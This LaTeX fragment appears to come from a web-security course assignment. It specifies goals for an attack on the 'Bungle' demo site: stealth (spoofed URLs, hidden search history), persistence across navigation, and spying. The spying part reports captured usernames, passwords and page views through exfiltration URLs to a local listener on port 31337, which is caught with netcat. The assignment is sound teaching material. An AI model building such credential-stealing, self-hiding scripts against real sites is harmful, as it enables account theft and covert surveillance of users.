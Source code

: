 \documentclass[letterpaper,12pt]{report}
\begin{document}
\noindent\textbf{Stealth:}
\begin{itemize}
\item Display all pages correctly, with no significant evidence of attack.\\
(Minor text formatting glitches are acceptable. Also you can assume the user {\bf will never click} the items in `Search History'. )
\item Display normal URLs in the browser's location bar, with no evidence of attack.\\
(Hint: Learn about the HTML5 History API.)
\item Hide evidence of attack in the \bungle\ search history view, as long as your code is running.
\end{itemize}

\noindent\textbf{Persistence:}
\begin{itemize}
\item Continue the attack if the user navigates to another page on the site by following a link or submitting a form, including by logging in or logging out.  (Your code does \textbf{not} have to continue working if the user's actions trigger an error that isn't the fault of your code.)
\item Continue the attack if the user navigates to another \bungle\ page by using the browser's back or forward buttons.
\end{itemize}

\noindent\textbf{Spying:}
\begin{itemize}
\item Report all login and logout events by loading the URLs:\\
\texttt{http://127.0.0.1:31337/stolen?event=login\&user=<username>\&pass=<password>}\\
\texttt{http://127.0.0.1:31337/stolen?event=logout\&user=<username>}

You can test receiving this data on your local machine by using Netcat: \texttt{\$ nc -l 31337}

\item Report each page that is displayed (what the user thinks they're seeing) by loading the URL:\\
\texttt{http://127.0.0.1:31337/stolen?event=nav\&user=<username>\&url=<encoded\_url>}\\
(\texttt{<username>} should be omitted if no user is logged in.)
\end{itemize}


\subsection*{Defenses} 
\end{document}
